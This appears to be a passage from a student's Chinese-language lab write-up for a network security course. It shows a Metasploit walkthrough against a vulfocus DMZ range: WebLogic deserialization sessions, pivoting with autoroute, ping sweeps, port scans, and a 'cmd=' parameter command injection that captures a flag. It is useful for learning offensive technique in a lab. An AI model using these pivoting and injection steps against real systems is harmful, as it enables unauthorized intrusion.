  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)
  7         meterpreter x86/linux  root @ 192.171.84.3  192.168.56.107:4433 -> 192.168.56.1:60618 (192.171.84.3)
  8         meterpreter x86/linux  root @ 192.172.85.3  192.168.56.107:4433 -> 192.168.56.1:60638 (192.171.84.5)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
```

由于已经验证过6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到msfconsole执行autoroute的模块添加通过8号会话的路由转发规则，此时就可以直接在msfconsole通过ping_sweep和portscan/tcp来直接进行扫描了：

```metasploit
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 41
============
Name         : eth0
Hardware MAC : 02:42:c0:ab:54:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.171.84.3
IPv4 Netmask : 255.255.255.0

meterpreter > background
[*] Backgrounding session 7...
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 39
============
Name         : eth0
Hardware MAC : 02:42:c0:ac:55:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.172.85.3
IPv4 Netmask : 255.255.255.0


Interface 45
============
Name         : eth1
Hardware MAC : 02:42:c0:ab:54:05
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.171.84.5
IPv4 Netmask : 255.255.255.0

meterpreter > background
[*] Backgrounding session 8...
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > search autoroute

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  post/multi/manage/autoroute                   normal  No     Multi Manage Network Route via Meterpreter Session


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/autoroute

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > use 0
msf6 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > set session 8
session => 8
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 192.172.85.3
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.172.85.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.171.84.0       255.255.255.0      Session 2
   192.172.85.0       255.255.255.0      Session 8

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```

通过ping_sweep可以发现到存活主机的地址（才发现ping_sweep是支持直接选择会话号来选择主机执行扫描的，不过既然后面的TCP端口扫描并没有这么智能，就不进行特别说明了），接下来就是简单的端口扫描了，由于已知是Nginx名称而直接扫描80端口应该不会有问题的吧：

```metasploit
msf6 post(multi/manage/autoroute) > search ping_sweep

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep


Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 post(multi/manage/autoroute) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting   Required  Description
   ----     ---------------   --------  -----------
   RHOSTS   192.171.84.2-254  yes       IP Range to perform ping sweep against.
   SESSION  2                 yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.172.85.2-254
rhosts => 192.172.85.2-254
msf6 post(multi/gather/ping_sweep) > set session 8
session => 8
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.172.85.2-254
[+]     192.172.85.2 host found
[+]     192.172.85.3 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner
   3  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   4  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   7  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access

msf6 post(multi/gather/ping_sweep) > use 5
msf6 auxiliary(scanner/portscan/tcp) > options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in millisecon
                                           ds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS       192.171.84.2-5   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/b
                                           asics/using-metasploit.html
   THREADS      4096             yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/portscan/tcp) > set ports 80
ports => 80
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.172.85.2-3
rhosts => 192.172.85.2-3
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.172.85.2:         - 192.172.85.2:80 - TCP OPEN
[*] 192.172.85.2-3:       - Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/portscan/tcp) >
```

然后说到漏洞这部分，最内层的这台主机的漏洞比较奇特，没有CVE编号，只是一个用来演示php传参直接可以实现代码执行的漏洞，从课程视频中的演示也可以看出，逻辑上只是需要通过构造GET请求，通过传参给`index.php`实现直接让页面回显'ls /tmp'的内容，想要像样一点的操作的话这部分可以通过BurpSuite来实现的

当然课程视频中的实现方式更为直接，通过跳板主机的shell，用wget直接发送请求，这里也不打算折腾在Metasploit外部额外配置路由转发代理，姑且就按照视频中演示的方式执行就好（中间不小心多打了一个回车导致一点问题，不过无伤大雅就是了）：

```metasploit
msf6 auxiliary(scanner/portscan/tcp) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > shell
Process 628 created.
Channel 256 created.
which wget
/usr/bin/wget
wget '192.172.85.2' -O /tmp/z && cat /tmp/z
--2023-07-26 15:47:10--  http://192.172.85.2/
Connecting to 192.172.85.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: '/tmp/z'

     0K                                                        2.60M=0s

2023-07-26 15:47:10 (2.60 MB/s) - '/tmp/z' saved [21]

index.php?cmd=ls /tmp
wget '
192.172.85.2/index.php?cmd=ls /tmp' -O /tmp/zz && cat /tmp/zz
--2023-07-26 15:47:53--  http://%0A192.172.85.2/index.php?cmd=ls%20/tmp
Resolving \n192.172.85.2 (\n192.172.85.2)... failed: Name or service not known.
wget: unable to resolve host address '\n192.172.85.2'
wget '192.172.85.2/index.php?cmd=ls /tmp' -O /tmp/zz && cat /tmp/zz
--2023-07-26 15:48:07--  http://192.172.85.2/index.php?cmd=ls%20/tmp
Connecting to 192.172.85.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: '/tmp/zz'

     0K                                                        9.73M=0s

2023-07-26 15:48:07 (9.73 MB/s) - '/tmp/zz' saved [68]

index.php?cmd=ls /tmpflag-{bmh6813cff7-ad78-49c7-8ee1-6f4b7629c640}
^Z
Background channel 256? [y/N]  y
meterpreter > background
[*] Backgrounding session 8...
msf6 auxiliary(scanner/portscan/tcp) >
```

至此，整个DMZ主机环境就算是从外层到中层再到内层都拿下了

### 蓝方操作

## 问题记录

### 解决的问题

#### vulfocus平台不再支持个人搭建的平台访问场景商店

最早是rock发现了这一问题，为了确认不是个人原因，我也快速进行了vulfocus平台的搭建，发现确实应该是平台官方不再开放场景商店给个人搭建平台的感觉，考虑到服务器成本或者攻击保护等等原因也是可以接受

rock那边甚至找到了vulfocus的在线平台，发现虽然可以在官方的在线平台上打开场景商店，场景却不开放打包下载的功能，rock愤然留言要求开放场景下载，甚至还加了开发者的微信群想要讨个说法😂最后也是没什么下文

于是我这边和rock尝试了手搓这个思路，课程视频中正好对整个DMZ环境的场景有讲解，于是就试着从创建网卡开始摸索，到参照镜像选择搭建了手搓的DMZ场景出来，并且“似乎”也没有遇到太多问题，就这么继续顺着手搓的DMZ场景做下去了（[伏笔](#薛定谔的容器)）



最后也是rock在讨论区发布了[唯一的一篇帖子](http://courses.cuc.edu.cn/course/109860/forum?show_sidebar=false#/topics/457749)（链接可能需要访问权限），我则是对其中“因为尝试而误对外开放了全部主机”的问题进行了修正，即要模拟仅最外层主机作为入口，内网主机对外“隐身”

#### 薛定谔的容器？

且说上一部分讨论手搓DMZ场景这件事，虽然说抄了个大概，不知道为什么我这边最内层的Nginx命令执行漏洞的容器会出现报错退出的情况，分析下来感觉像是vulfocus平台设计的网卡之间网段分配的问题？截图来看是下面的效果：



为了排这部分错，我甚至尝试了清除所有容器、镜像、网卡等：

```bash
docker system prune -a
```

然后是重新下载vulfocus平台的镜像，环境中用到的包含漏洞的镜像也尽数重新下载，然而并没有解决问题，没有变的是网段分配还是存在问题，即地址并没有按照在平台中定义的虚拟网卡那样分配网段

直到又隔了一阵子，开始肝报告了，尝试复现这部分内容，一切又正常了，之前运行就会退出的Nginx命令执行漏洞容器这次也正常运行了：

```bash
┌──(leaf㉿ZephyrusG15)-[~/Downloads/ctf-games/fofapro/vulfocus]
└─$ dk ps -a
CONTAINER ID   IMAGE                                    COMMAND                  CREATED         STATUS
   PORTS                                         NAMES
1f9e1717645c   vulfocus/struts2-cve_2020_17530:latest   "/usr/local/bin/mvn-…"   8 minutes ago   Up 8 minutes
   0.0.0.0:63469->8080/tcp, :::63469->8080/tcp   8f439cea-c7ac-4e71-a8b3-e4f96d9c2654_jslmf51ua1c_1
3384d7e6a302   vulfocus/weblogic-cve_2019_2725:latest   "startWebLogic.sh"       8 minutes ago   Up 8 minutes
   5556/tcp, 7001/tcp                            8f439cea-c7ac-4e71-a8b3-e4f96d9c2654_12zwznv9dp68_1
a11c919b9c58   vulfocus/weblogic-cve_2019_2725:latest   "startWebLogic.sh"       8 minutes ago   Up 8 minutes
   5556/tcp, 7001/tcp                            8f439cea-c7ac-4e71-a8b3-e4f96d9c2654_3ysq230jk8w0_1
61c7669ba129   vulshare/nginx-php-flag:latest           "/2.sh"                  8 minutes ago   Up 8 minutes
   80/tcp                                        8f439cea-c7ac-4e71-a8b3-e4f96d9c2654_5bmsr0nf7b00_1
996a93042bb9   vulfocus/weblogic-cve_2019_2725:latest   "startWebLogic.sh"       8 minutes ago   Up 8 minutes
   5556/tcp, 7001/tcp                            8f439cea-c7ac-4e71-a8b3-e4f96d9c2654_3z99kgcz8km0_1
f1ea333cc299   vulfocus/vulfocus:latest                 "sh /vulfocus-api/ru…"   3 hours ago     Up 3 hours (healthy)      0.0.0.0:80->80/tcp, :::80->80/tcp             vulfocus_vul-focus_1
25a25352d04e   vulfocus/weblogic-cve_2019_2725:latest   "startWebLogic.sh"       7 days ago      Exited (137) 6 days ago                                                 9c3103b1-30f6-4b88-ac91-f35e2c3ca060_12zwznv9dp68_1
70ce52c49a2b   vulfocus/weblogic-cve_2019_2725:latest   "startWebLogic.sh"       7 days ago      Exited (137) 6 days ago                                                 9c3103b1-30f6-4b88-ac91-f35e2c3ca060_3z99kgcz8km0_1
0c67ad8c14fa   vulfocus/struts2-cve_2020_17530:latest   "/usr/local/bin/mvn-…"   7 days ago      Exited (143) 6 days ago                                                 9c3103b1-30f6-4b88-ac91-f35e2c3ca060_jslmf51ua1c_1
9b451976a7c3   vulshare/nginx-php-flag:latest           "/2.sh"                  7 days ago      Exited (1) 7 days ago                                                   9c3103b1-30f6-4b88-ac91-f35e2c3ca060_5bmsr0nf7b00_1
68b81f757d9c   vulfocus/weblogic-cve_2019_2725:latest   "startWebLogic.sh"       7 days ago      Exited (137) 6 days ago                                                 9c3103b1-30f6-4b88-ac91-f35e2c3ca060_3ysq230jk8w0_1

┌──(leaf㉿ZephyrusG15)-[~/Downloads/ctf-games/fofapro/vulfocus]
└─$
```

也导致写了一半的报告需要扔下再回过头去完成最后一台机器的flag提交😔

（小声：这部分原本是放在“未解决的问题”下的，事出突然甚至打乱了我的报告格式😡）

### 神秘的日记

[这是什么？](./diary.md)

## 参考链接

- [网络安全(2021) 综合实验_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1p3411x7da/)

- [网络安全](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

- [How To Remove Docker Images, Containers, and Volumes | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-remove-docker-images-containers-and-volumes)

- [Struts2 S2-061 Remote Code Execution Vulnerability (CVE-2020-17530) Threat Alert - NSFOCUS, Inc., a global network and cyber security leader, protects enterprises and carriers from advanced cyber attacks.](https://nsfocusglobal.com/struts2-s2-061-remote-code-execution-vulnerability-cve-2020-17530-threat-alert/)
